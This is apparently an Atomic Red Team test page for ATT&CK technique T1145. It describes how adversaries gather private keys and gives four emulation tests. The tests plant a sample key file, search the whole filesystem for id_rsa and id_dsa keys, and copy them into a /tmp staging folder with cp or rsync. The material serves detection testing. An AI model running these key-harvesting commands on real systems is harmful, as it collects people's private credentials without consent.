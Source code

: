 # T1145 - Private Keys

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1145)

<blockquote>Private cryptographic keys and certificates are used for authentication, encryption/decryption, and digital signatures. (Citation: Wikipedia Public Key Crypto)

Adversaries may gather private keys from compromised systems for use in authenticating
to [Remote Services](https://attack.mitre.org/techniques/T1021) like SSH or for use in decrypting other collected files
such as email. Common key and certificate file extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer,
.p7b, .asc. Adversaries may also look in common key directories, such as <code>~/.ssh</code> for SSH keys on * nix-based
systems or <code>C:\Users\(username)\.ssh\</code> on Windows.

Private keys should require a password or passphrase for operation, so an adversary may also
use [Input Capture](https://attack.mitre.org/techniques/T1056) for keylogging or attempt
to [Brute Force](https://attack.mitre.org/techniques/T1110) the passphrase off-line.

Adversary tools have been discovered that search compromised systems for file extensions relating to cryptographic keys
and certificates. (Citation: Kaspersky Careto) (Citation: Palo Alto Prince of Persia)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Private Keys](#atomic-test-1---private-keys)

- [Atomic Test #2 - Discover Private SSH Keys](#atomic-test-2---discover-private-ssh-keys)

- [Atomic Test #3 - Copy Private SSH Keys with CP](#atomic-test-3---copy-private-ssh-keys-with-cp)

- [Atomic Test #4 - Copy Private SSH Keys with rsync](#atomic-test-4---copy-private-ssh-keys-with-rsync)

<br/>

## Atomic Test #1 - Private Keys

Find private keys on the Windows file system.
File extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
echo "ATOMICREDTEAM" > %windir%\cert.key
dir c:\ /b /s .key | findstr /e .key
```

#### Cleanup Commands:

```cmd
del c:\Windows\cert.key >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Discover Private SSH Keys

Discover private SSH keys on a macOS or Linux system.

**Supported Platforms:** macOS, Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Output file containing locations of SSH key files | path | /tmp/keyfile_locations.txt|

#### Attack Commands: Run with `sh`!

```sh
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```

<br/>
<br/>

## Atomic Test #3 - Copy Private SSH Keys with CP

Copy private SSH keys on a Linux system to a staging folder using the `cp` command.

**Supported Platforms:** Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|

#### Attack Commands: Run with `sh`!

```sh
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```

<br/>
<br/>

## Atomic Test #4 - Copy Private SSH Keys with rsync

Copy private SSH keys on a Linux or macOS system to a staging folder using the `rsync` command.

**Supported Platforms:** macOS, Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|

#### Attack Commands: Run with `sh`!

```sh
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```

<br/>
